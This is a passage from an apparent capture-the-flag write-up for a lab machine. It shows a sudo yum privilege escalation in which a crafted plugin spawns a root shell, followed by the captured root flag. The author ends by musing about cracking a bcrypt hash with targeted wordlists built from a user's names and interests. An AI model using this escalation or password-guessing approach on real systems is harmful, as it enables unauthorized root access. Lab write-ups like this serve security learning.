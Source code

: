 ```
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

wise words indeed

```
sh-4.2# id
uid=0(root) gid=0(root) groupes=0(root)
```

Actually just copy-pasting that works

what this does is basically craft a yum plugin that spawn a shell and enable/load the custom plugin

Alternatively you can craft the plugin on your own side then upload it (see gtfobins again)

Anyway we are done here

```
sh-4.2# cd /root
sh-4.2# ls
anaconda-ks.cfg  root.txt
sh-4.2# cat root.txt
```

This was amazing...I think the main thing that made this HARD is the Bcrypt hash

that single step I could not overcome alone...my computer and internet were both not good enough

But I think by optimizing my wordlists and creating specific and targeted ones I can bruteforce that

By exemple knowing jonah his password could be anything like..'jonah', 'peter', 'jameson', 'dailybugle','spiderman'...

All that mixed with numbers and special chars

But we all know what his biggest obsession is

Dammit peter get him those pictures
